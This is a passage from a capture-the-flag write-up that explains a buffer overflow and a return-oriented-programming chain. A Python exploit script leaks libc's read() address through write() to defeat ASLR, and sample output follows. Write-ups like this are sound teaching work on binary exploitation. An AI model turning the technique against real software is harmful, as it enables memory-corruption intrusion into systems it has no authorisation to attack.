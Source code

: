 ```python
pop_rdx = 0

# Helper function to call a function with specified args
def call(func, arg1, arg2, arg3):
    output = ''
    if arg1 != None:
        output += p64(pop_rdi) + p64(arg1)
    if arg2 != None:
        output += p64(pop_rsi_r15) + p64(arg2)*2
    if arg3 != None:
        if pop_rdx == 0:
                print 'No rdx gadget provided'
                exit(-1)
        else:
                output += p64(pop_rdx) + p64(arg3)
    return output + p64(func)

payload = "A"*(0x30+8) # Overflow the buffer
payload += call(write_plt, 1, read_got, None) # Call write(1, read_got, <something>)
payload += p64(main_addr) # Jump back to main, important later

sh.sendlineafter(": \n", payload)

leak = hex(u64(sh.recvuntil('story')[:8])) # Leaked address is the first 8 bytes received (64bit)

print leak
```

The exploit script makes use of return oriented programming. If you don't know what that is, I suggest you read through my writeups of the ROP Emporium challenges [here](https://syedfarazabrar.com/writeups/rop-emporium/2019/07/19/rop-emporium-challenges.html){:target="blank"}, specifically split64, although you may have to read the previous writeups if you are very new to binary exploitation.

I wrote a call() helper function to help keep the payload compact. The exploit basically does the following:

* Overflow the buffer.
* Call `write(1, read_got, <whatever_is_in_rdx>)` where the first argument is 1 meaning stdout, second argument is read's GOT entry (explained above), and the third argument is something we can't control since there aren't any pop rdx gadgets, so we just hope rdx has a positive value > 8 (since the third argument is the number of bytes to write).
* Jump back to main (this will be important a little later).
* The leaked address will be the first 8 bytes we receive from the write() call we just made.

We run this script a bunch of times and do indeed see that ASLR is enabled, since the libc address of read() changes, as shown below.
```shell
» ./exploit.py   
0x7f0100c9c250

» ./exploit.py   
0x7f828be0b250

» ./exploit.py   
0x7f4aebd51250

» ./exploit.py    
0x7f0372072250 
```
